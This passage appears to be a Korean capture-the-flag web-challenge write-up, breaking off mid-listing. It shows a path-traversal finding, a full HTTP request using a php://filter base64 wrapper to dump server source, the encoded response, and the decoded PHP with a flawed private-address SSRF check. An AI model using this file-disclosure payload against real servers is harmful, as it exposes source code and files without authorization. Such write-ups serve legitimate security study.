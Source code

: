 
위 요청에서 놀랐던 사실이 2가지 있다.

1. 경로 이동이 되어 타 파일을 읽을 수 있다는 것 (보자마자 바로 `/etc/passwd`를 해보았지만 안되었다. 추측으로는 확장자 이어붙이기를 하는 것으로 예상했는데, 예상이 맞았다.)
2. Response의 Set-Cookie가 동일한 값을 반환해주고 있었다.

1번 내용이 매우 거슬려서 다양한 시도를 해보았고, 결국 PHP Wrapper를 이용하여 내부 파일을 열람할 수 있었다. (참고로 처음부터 php wrapper를 했는데, 오타 때문에 몇시간을 날렸다.)

```
[ Request ]
POST /index.phtml?fun_004ded7246=php://filter/convert.base64-encode/resource=load HTTP/1.1
Host: 114.203.209.112:8000
Cookie: PHPSESSID=km8242du1i5ctdu87piomkf744;
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

url=http://127.0.0.1

[ Response ]
HTTP/1.1 200 OK
...

<!-- Begin page content -->
    PD9waHAKCi8vIExPQ0FUSU9OIDogLi9pbnRlcm5hbF9lMDEzNGNkNWE5MTcucGhwCgplcnJ
...
```

위에서 보이는것 처럼 base64값으로 페이지의 소스코드가 나오는 것을 확인할 수 있었다. 이를 decrypt 해보면 아래와 같은 코드가 나온다.

```php
<?php

// LOCATION : ./internal_e0134cd5a917.php

error_reporting(0);
session_start();

if (!isset($_SESSION['username']))
{
    header('location: ./login.php');
    die();
}

if (__FILE__ === $_SERVER['SCRIPT_FILENAME'])
{
    die("only in include");
}

function valid_url($url)
{
    $valid = False;
    $res=preg_match('/^(http|https)?:\/\/.*(\/)?.*$/',$url);
    if (!$res) $valid = True;
    try{ parse_url($url); }
    catch(Exception $e){ $valid = True;}
    $int_ip=ip2long(gethostbyname(parse_url($url)['host']));
    return $valid 
            || ip2long('127.0.0.0') >> 24 == $int_ip >> 24 
            || ip2long('10.0.0.0') >> 24 == $int_ip >> 24 
            || ip2long('172.16.0.0') >> 20 == $int_ip >> 20 
            || ip2long('192.168.0.0') >> 16 == $int_ip >> 16 
            || ip2long('0.0.0.0') >> 24 == $int_ip >> 24;
}

function get_data($url)
```